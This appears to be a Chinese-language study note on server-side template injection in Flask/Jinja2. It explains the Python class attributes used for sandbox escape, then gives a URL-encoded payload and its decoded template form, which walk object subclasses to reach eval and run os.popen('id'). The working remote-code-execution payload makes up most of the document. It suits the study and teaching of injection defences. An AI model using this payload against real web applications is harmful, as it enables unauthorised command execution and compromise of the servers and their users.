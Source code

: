 ```python
__mro__    返回一个类所继承的基类元组，方法在解析时按照元组的顺序解析。
__base__   返回一个类所继承的基类
# __base__和__mro__都是用来寻找基类的

__subclasses__   每个新类都保留了子类的引用，这个方法返回一个类中仍然可用的的引用列表
__init__  类的初始化方法
__globals__  对包含函数全局变量的字典的引用
```
### payload
```python
%7B%25%20for%20c%20in%20%5B%5D.__class__.__base__.__subclasses__()%20%25%7D%0A%7B%25%20if%20c.__name__%20%3D%3D%20%27catch_warnings%27%20%25%7D%0A%20%20%7B%25%20for%20b%20in%20c.__init__.__globals__.values()%20%25%7D%0A%20%20%7B%25%20if%20b.__class__%20%3D%3D%20%7B%7D.__class__%20%25%7D%0A%20%20%20%20%7B%25%20if%20%27eval%27%20in%20b.keys()%20%25%7D%0A%20%20%20%20%20%20%7B%7B%20b%5B%27eval%27%5D(%27__import__(%22os%22).popen(%22id%22).read()%27)%20%7D%7D%0A%20%20%20%20%7B%25%20endif%20%25%7D%0A%20%20%7B%25%20endif%20%25%7D%0A%20%20%7B%25%20endfor%20%25%7D%0A%7B%25%20endif%20%25%7D%0A%7B%25%20endfor%20%25%7D
```
![image.png](./SSTi.assets/2023_05_19_15_02_22_3l6FkpWL.png)

### paylaod 分析
使用for表达式来获取eval函数(只针对flask)，使用eval函数加载恶意执行代码
```python
 for c in [].__class__.__base__.__subclasses__():
        if c.__name__ == 'catch_warnings':
            for b in c.__init__.__globals__.values():
                if b.__class__ == {}.__class__:
                    if 'eval' in b.keys():
                        print(b['eval']('__import__("os").popen("id").read()'))
```
以上代码改写为模板语法如下：满足模板语法，通过寻找list的基类中可用的引用列表，当其满足是字典的时候，存在eval方法，直接执行代码
```python
{% for c in [].__class__.__base__.__subclasses__() %}
{% if c.__name__ == 'catch_warnings' %}
  {% for b in c.__init__.__globals__.values() %}
  {% if b.__class__ == {}.__class__ %}
    {% if 'eval' in b.keys() %}
      {{ b['eval']('__import__("os").popen("id").read()') }}
    {% endif %}
  {% endif %}
  {% endfor %}
{% endif %}
{% endfor %}
```